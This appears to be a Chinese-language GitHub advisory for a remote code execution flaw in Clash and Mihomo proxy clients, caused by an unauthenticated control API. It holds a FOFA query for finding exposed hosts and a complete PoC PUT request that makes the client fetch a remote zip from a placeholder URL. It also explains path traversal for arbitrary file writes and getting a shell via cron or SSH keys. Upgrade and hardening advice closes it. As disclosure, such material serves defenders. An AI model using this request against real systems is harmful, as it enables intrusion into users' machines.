 # Mihomo-RCE
Clash多版本存在该漏洞，如：Clash Verge。
漏洞版本：Clash ≤2.2.4 , Mihomo ≤v1.19.8


Clash的Web控制服务，默认开启的（默认端口为9090/9097）且默认空秘钥，且所有历史版本（Clash ≤2.2.4 , Mihomo ≤v1.19.8）都受此漏洞影响。

FOFA查询：body="\"hello\":\"mihomo\"" || body="\"hello\":\"clash\""

* POC
```
PUT /configs HTTP/1.1
Host: 127.0.0.1:9097
Connection: keep-alive
Content-Length: 196
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Content-Type: text/plain;charset=UTF-8

{"payload":"\n  external-ui: gY1bN0iF0kG2eN4z\n  external-ui-url: http://www.demo.com/demo.zip\n                external-ui-name: demo","path":""}
```
external-ui-url位置的远程文件可以是任意恶意文件，可路径穿越，通过external-ui: ../../../tmp的方式，突破目录限制，实现任意文件写入。（可实现写cron、写ssh key等多种方式getshell）


*【安全修复建议】
1、将Clash客户端和Mihomo升级至已修复版本：
Clash>= v2.3.0
Mihomo >= v1.20.1
2、关闭不必要的服务端口
3、外部监听地址增加秘钥限制。
